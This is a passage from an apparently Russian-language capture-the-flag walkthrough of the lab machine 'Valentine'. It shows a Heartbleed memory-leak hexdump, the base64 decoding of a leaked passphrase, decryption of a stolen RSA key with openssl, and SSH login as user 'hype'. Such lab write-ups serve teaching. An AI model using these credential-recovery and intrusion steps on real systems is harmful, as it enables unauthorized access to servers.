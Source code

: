 В файле `out.txt` находится полученная от сервера информация (листинг большой, приведу только интересующую нас часть):
```
root@kali:~# cat out.txt
...
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 30 2E 30 2E  ....#.......0.0.
  00e0: 31 2F 64 65 63 6F 64 65 2E 70 68 70 0D 0A 43 6F  1/decode.php..Co
  00f0: 6E 74 65 6E 74 2D 54 79 70 65 3A 20 61 70 70 6C  ntent-Type: appl
  0100: 69 63 61 74 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F  ication/x-www-fo
  0110: 72 6D 2D 75 72 6C 65 6E 63 6F 64 65 64 0D 0A 43  rm-urlencoded..C
  0120: 6F 6E 74 65 6E 74 2D 4C 65 6E 67 74 68 3A 20 34  ontent-Length: 4
  0130: 32 0D 0A 0D 0A 24 74 65 78 74 3D 61 47 56 68 63  2....$text=aGVhc
  0140: 6E 52 69 62 47 56 6C 5A 47 4A 6C 62 47 6C 6C 64  nRibGVlZGJlbGlld
  0150: 6D 56 30 61 47 56 6F 65 58 42 6C 43 67 3D 3D 5F  mV0aGVoeXBlCg==_
  0160: CB 1D 08 7B 54 41 44 CA CF BE 90 80 D9 7B 4F 37  ...{TAD......{O7
  0170: 4D 90 DA 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C 0C  M...............
  0180: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
...
```

Из внутрянной памяти сервера вытянули строчку `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==`, которую кто-то предположительно вводил в декодер. Переведем в осмысленный текст:
```text
root@kali:~# base64 -d <<< 'aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg=='
heartbleedbelievethehype
```

Интуиция подсказывает, что сие есть парольная фраза от private-ключа, полученного ранее. Расшифруем ключ:
```text
root@kali:~# openssl rsa -in rsa.key -out rsa_decrypted.key
Enter pass phrase for rsa.key: heartbleedbelievethehype
writing RSA key
```

Установим необходимые биты доступа:
```text
root@kali:~# chmod 600 rsa_decrypted.key
```

и перейдем к следующей части.

# SSH — Порт 22 (внутри машины)
Теперь можно с чистой совестью подключиться к Valentine по SSH (имя пользователя, кстати, пришлось угадывать, к счастью это было не трудно :expressionless:):
```
root@kali:~# ssh -i rsa_decrypted.key hype@10.10.10.79
hype@Valentine:~$ whoami
hype

hype@Valentine:~$ id
uid=1000(hype) gid=1000(hype) groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

hype@Valentine:~$ uname -a
Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux
```
